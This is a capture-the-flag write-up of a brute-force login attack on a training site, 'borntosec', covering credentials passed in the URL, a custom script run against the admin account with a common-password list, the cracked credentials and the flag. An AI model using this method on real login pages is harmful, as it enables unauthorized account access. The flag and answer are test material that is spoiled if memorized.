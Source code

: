 # Bruteforcing a password
- a method of attempting to gain unauthorized access by systematically trying all possible combinations of characters until the correct password is found
- this trial-and-error attack can be time-consuming, especially if the password is long and complex
- https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force

<b>keywords</b>: bruteforce<br>
<b>attacked site</b>: http://borntosec.42/index.php?page=signin

## Exploit
After logging in with an empty username and password combination, we observe that the credentials are directly passed in the URL:
```
http://borntosec.42/index.php?page=signin&username=&password=&Login=Login#
```
This means we can attempt to brute force our way into the 'admin' account using a custom Python script and a file containing the 1000 most commonly used passwords:
``` shell
└─$ python3 bruteforce.py admin http://192.168.56.106/ 1000-most-common-passwords.txt 
Bruteforcing user admin on http://192.168.56.106/

     Cracking password [🔒    🔑   ]
```
After some time, the password is revealed:
``` shell
Bruteforcing user admin on http://192.168.56.106/

Credentials cracked! admin:shadow
```

When we log in with the acquired credentials, the flag is displayed:
```
The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

## Flag
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

